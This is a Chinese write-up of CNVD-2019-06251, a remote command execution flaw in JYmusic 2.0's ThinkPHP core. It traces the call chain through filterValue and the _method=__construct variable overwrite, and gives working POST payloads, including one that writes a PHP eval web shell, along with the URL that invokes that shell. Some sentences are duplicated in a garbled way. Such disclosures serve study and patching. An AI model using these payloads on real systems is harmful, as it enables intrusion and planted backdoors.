








# （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞

> 原文：[http://book.iwonder.run/0day/JYmusic/1.html](http://book.iwonder.run/0day/JYmusic/1.html)

## 一、漏洞简介

CNVD-2019-06251

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

#### 危险函数

/core/library/think/Request.php 类中的 filterValue 函数中，使用了 call_user_func 函数。



通过构造使得$filter=system， $value=dir ，通过 call_user_func 函数即可执行系统命令” dir ”。

#### array_walk_recursive 函数

/core/library/think/Request.php 类中的 input 函数里调用了通过 array_walk_recursive 函数调用了 filterValue 函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。





#### input 函数

/core/library/think/Request.php 中的 param 函数调用了 input 函数。


#### exec 函数

/core/library/think/App.php 类中的 exec 函数通过 Request::instance()->param()调用了 param 函数。



#### run 函数

/core/library/think/App.php 类中的 run 函数则调用了 exec 函数


传入的 dispatch 和 dispatch 和 dispatch 和 config 两个参数分别来自于/core/library/think/App.php 类中 run 函数里的：




#### 变量覆盖

/core/library/think/App.php 类中 run 函数里，获取 dispatch 变量值时调用了 routeCheck 函数。routeCheck 函数中则通过 Route::chekc 调用了 check 函数。/core/library/think/Route.php 类中，check 函数通过 dispatch 变量值时调用了 routeCheck 函数。routeCheck 函数中则通过 Route::chekc 调用了 check 函数。/core/library/think/Route.php 类中，check 函数通过 dispatch 变量值时调用了 routeCheck 函数。routeCheck 函数中则通过 Route::chekc 调用了 check 函数。/core/library/think/Route.php 类中，check 函数通过 request->method()调用了 method 函数。

/core/library/think/Request.php 类中，通过 post 参数 _method=__construct 调用构造函数：



在构造函数里用 filter=system 覆盖类中的 filter 变量。


post 参数 method=GET 就是要再次调用 method 函数，并且使得 if(true===$method)为真，从而获取 _SERVER[REQUEST_METHOD]=dir 这个参数值。



#### 调用入口

/core/library/think/App.php 类中的 run 函数，则是在 index.php 入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method 修改请求方式为 POST

#### 参数：


POST 的参数的作用已在漏洞分析环节分析。 filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET POST 参数后不能有\r\n 回车换行，如果有就不能成功执行。 POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入 shell



```
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET 
```

#### phpinfo()


```
http://0-sec.org/test.php?test=phpinfo(); 

//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。 
```

## 四、参考链接

> [https://blog.csdn.net/yun2diao/article/details/91345116](https://blog.csdn.net/yun2diao/article/details/91345116)

